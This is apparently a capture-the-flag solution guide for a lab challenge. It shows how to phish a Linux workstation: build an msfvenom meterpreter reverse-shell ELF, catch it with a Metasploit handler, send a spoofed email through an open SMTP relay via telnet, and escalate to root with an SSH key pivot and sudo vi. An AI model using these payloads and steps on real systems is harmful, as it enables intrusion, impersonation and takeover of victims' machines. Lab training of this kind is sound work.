









# A Link? I'll Click It! Solution

_Note: IP addresses in this guide may change due to DHCP. Simply replace IP addresses in the guide with the correct IPs you find_

The solution we will build will follow a process of:  

0. Determine the architecture of a target
1. Setting up a reverse shell listener with Metasploit
1. Crafting a malicious program with msfvenom
1. Sending an email with telnet
1. Use Metasploit to interact with targeted hosts


## Section 0 - Determine Target Architecture

If you are running through this challenge for the first time, with no information about the network, you will likely need to collect more information first.  You can do this by following the steps below to send an email with a link to a simple website which logs the IP address of visitors (`'python3 -m http.server'` should work).

Once you know the target IP address you can use DNS or Nmap to gather more information about the target. `nslookup 172.16.20.25` to use DNS to find the hostname `APostLinuxWorkstation.makestuff.company`.  You can also use `nmap 172.16.20.25` to gather more information.   This should lead to the conclusion that the target is a Linux host. 


## Section 1 - Reverse Shell Listener

This reverse shell listener (handler) will listen for a metasploit

1. Start the Metasploit Console --    `msfconsole -q`
1. Start using a handler  --   `use exploit/multi/handler`
1. Configure the handler options - the meterpreter payload below will spawn an interactive meterpreter session where the victim is initiating a TCP session with the attacker   
 ```
set payload linux/x64/meterpreter_reverse_tcp  
set lhost 172.16.20.26
set lport 4444
``` 
> _change the IP address if needed. Port number is your choice_
4. Start the listener as a background job  --  `exploit -j`




## Section 2 - Craft Malicious Payload

1. Use MSFVenom to create a malicious exe. This exe will start a meterpreter session which connects back to our Kali machine from the victim. The malware will prepend a migration into another process so the connection to the attacker is still running when the malicious process dies. Run the command:  

```
msfvenom -p linux/x64/meterpreter_reverse_tcp lhost=172.16.20.26 lport=4444 -f elf > file.elf
``` 



2. Begin serving this file via a webserver by using python. This will allow a web request to download the file

```
python3 -m http.server
```



## Section 3 - Sending an email with Telnet

Performing an nmap scan on the email server in the network will reveal that the mail server is an "open relay". This means that the server is configured to forward messages to any email address from any email address. 
```
sudo nmap --script smtp-open-relay.nse mail.makestuff.company
```


You can connect to this open relay server and send SMTP commands with telnet. See the screenshot below to view SMTP commands for sending an email through telnet. The parts highlighted in yellow are the lines which are typed by the user (other lines are text returned by the server).



Notice in the screenshot that the `TO` and `FROM` email addresses are the expected addresses for the challenge requirements. After typing `DATA` to mark the beginning of the message, enter the Subject. Then you must leave a blank line before entering the email content. Enter the URL for the file you want the user to run as the content of the email. End the email with a period (`.`) on its own line. 

This should result in an email being sent with the FROM address being `kbrady@makestuff.company` show in the inbox of `apost@makestuff.company`.


## Section 4 - Interacting With Metasploit

Once you have a metasploit connection, you should be able to retrieve the first token right away.

```
meterpreter> cat token1
```


You can then run the getuid command to see which user's context you are currently under (who you are logged in as). 

Navigate to that user's home directory and view the .ssh directory. Notice that there are some authorized keys (SSH keys which may allow SSH login without a password). The SSH Key is for the user austin on the localhost.

Drop from meterpreter into a system command shell. Use SSH to login as the user `austin` on the localhost. 



Run `sudo -l` to list the sudo permissions for the user `austin`. Notice that the user can run the vi program as sudo without the use of a password. Run vi with sudo to have the program open as root.




Type `:!/bin/bash` once the vi program loads to have a root permission bash session open in vi. Change directory to / and read the second token. 



